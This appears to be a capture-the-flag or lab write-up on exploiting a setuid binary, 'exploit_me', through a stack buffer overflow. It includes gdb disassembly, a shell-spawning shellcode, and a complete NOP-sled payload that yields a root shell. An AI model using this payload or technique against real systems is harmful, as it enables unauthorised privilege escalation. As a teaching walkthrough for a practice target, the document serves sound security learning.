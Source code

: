 # Writeup 3

Go back to the last step of [writeup 1](../writeup1.md) and ssh as **zaz**.\
We used an exploit called **ret2libc** but we can use another method to exploit the binary, by injecting a **shellcode**
which will be copy to a buffer on the**stack** and then we can inject the address of this buffer in order to make the
**eip** read it.

## Setup exploit

1. **Get buffer's address on the stack**\
The address is returned by the function **strcpy** in **eax**.
```
(gdb) disass main
Dump of assembler code for function main:
   0x080483f4 <+0>:	push   %ebp
   0x080483f5 <+1>:	mov    %esp,%ebp
   0x080483f7 <+3>:	and    $0xfffffff0,%esp
   0x080483fa <+6>:	sub    $0x90,%esp
   0x08048400 <+12>:	cmpl   $0x1,0x8(%ebp)
   0x08048404 <+16>:	jg     0x804840d <main+25>
   0x08048406 <+18>:	mov    $0x1,%eax
   0x0804840b <+23>:	jmp    0x8048436 <main+66>
   0x0804840d <+25>:	mov    0xc(%ebp),%eax
   0x08048410 <+28>:	add    $0x4,%eax
   0x08048413 <+31>:	mov    (%eax),%eax
   0x08048415 <+33>:	mov    %eax,0x4(%esp)
   0x08048419 <+37>:	lea    0x10(%esp),%eax
   0x0804841d <+41>:	mov    %eax,(%esp)
   0x08048420 <+44>:	call   0x8048300 <strcpy@plt>
   0x08048425 <+49>:	lea    0x10(%esp),%eax
   0x08048429 <+53>:	mov    %eax,(%esp)
   0x0804842c <+56>:	call   0x8048310 <puts@plt>
   0x08048431 <+61>:	mov    $0x0,%eax
   0x08048436 <+66>:	leave
   0x08048437 <+67>:	ret
End of assembler dump.
(gdb) b *main+49
Breakpoint 1 at 0x8048425
(gdb) r aaaaaaaaaaaaaaaaaaaaaaaaaa
Starting program: /home/zaz/exploit_me aaaaaaaaaaaaaaaaaaaaaaaaaa

Breakpoint 1, 0x08048425 in main ()
(gdb) info reg $eax
eax            0xbffff6b0	-1073744208
```
The address is `0xbffff6b0`.


2. **Get the shellcode**\
We can use the website [https://shell-storm.org/shellcode/index.html](https://shell-storm.org/shellcode/index.html) to get a shellcode.\
This one works [https://shell-storm.org/shellcode/files/shellcode-516.html](https://shell-storm.org/shellcode/files/shellcode-516.html).\
`\x31\xdb\x6a\x17\x58\xcd\x80\xf7\xe3\xb0\x0b\x31\xc9\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80`


3. **Create the payload**\
The payload consists in `padding + buffer address + NOP + shellcode`.\
What is NOP ? It stands for "No Operations", basically it is used to make sure that our exploit doesn’t fail,because we won’t always point
to the right address , so we add stuff that doesn’t do anything.\
So with that our shellcode is `python -c 'print("\x90" * 140 + "\xb0\xf6\xff\xbf" + "\x90" * 100 + "\x31\xdb\x6a\x17\x58\xcd\x80\xf7\xe3\xb0\x0b\x31\xc9\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80")'`

4. **Exploit**\
We can just run:
```
./exploit_me $(python -c 'print("\x90" * 140 + "\xb0\xf6\xff\xbf" + "\x90" * 100 + "\x31\xdb\x6a\x17\x58\xcd\x80\xf7\xe3\xb0\x0b\x31\xc9\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80")')
# id
uid=0(root) gid=1005(zaz) groups=0(root),1005(zaz)
# whoami
root
```
